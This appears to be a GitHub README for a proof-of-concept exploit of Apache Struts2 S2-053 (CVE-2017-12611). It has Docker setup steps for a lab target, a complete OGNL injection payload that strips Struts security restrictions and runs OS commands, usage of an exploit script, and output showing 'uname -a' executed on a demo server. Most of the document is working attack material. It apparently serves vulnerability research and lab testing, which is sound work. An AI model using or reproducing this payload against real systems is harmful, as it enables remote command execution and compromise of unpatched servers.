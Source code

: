 # S2-053-CVE-2017-12611

http://apache.uberglobalmirror.com/struts/2.3.33/

# 测试环境
'''
docker-compose build
docker-compose up -d
'''
# Poc
'''
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
'''

# 脚本使用方法

 python exploit.py "http://10.160.11.191:8080" "name" "uname -a"
[*] Generated EXP: http://10.160.11.191:8080/?name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%27uname%20-a%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27/c%27%2C%23cmd%7D%3A%7B%27/bin/bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D

[*] Exploiting...
[+] Response: <html>
<head>
<title>S2-053 Demo</title>
</head>
<body>
<h1>S2-053 Demo</h1>
<hr/>
Your name: Linux 8f7d2ffe7b33 3.13.0-61-generic ;jsessionid=861BDA02BAF82F0455B504C30E742AA0#100-Ubuntu SMP Wed Jul 29 11:21:34 UTC 2015 x86_64 GNU/Linux

<hr/>
Enter your name here:<br/>
<form action="" method="get">
<input type="text" name="name" value="" />
<input type="submit" value="Submit" />
</form>
<br/><br/><br/>
<p>See more at: <a href="https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-053">VulApps - S2-053</a></p>
</body>
</html>

[+] Exploit Finished!
```
    
# 参考
* https://cwiki.apache.org/confluence/display/WW/Security+Bulletins
* https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-053
